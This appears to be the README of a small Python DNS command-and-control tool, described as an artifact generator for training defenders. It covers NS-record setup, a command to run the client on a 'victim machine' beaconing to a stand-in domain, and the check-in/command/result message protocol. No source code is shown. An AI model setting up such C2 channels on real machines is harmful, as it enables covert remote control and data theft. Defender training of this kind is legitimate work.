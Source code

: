 # ObviousDNSC2
Simple DNS C2 with Python client and server

## Purpose
A plain-as-possible DNS C2 framework with both client and server written in Python. This is designed as an artifact generation tool for training defenders.

## Setup
Configure a DNS record (like, with a legit registrar) with an NS record that points to a public asset you control. Example:
`odc2.SomeDomainIOwn.com`, pointing to `myVPC.SomeDomainIOwn.com`.

On that VPC, install and run the server.

On the victim machine, run `odc2client.py -d odc2.SomeDomainIOwn.com`

## Message Flow
Client             Server
CHK                NUL
CHK                HDR<num CMD pkts>
CON<last pkt num>  CMD<pkt num>
HDR<num RES pkts>  ACK
RES<pky num>       ACK<pkt num>

STP from server ends current RES thread
DIE from server closes client
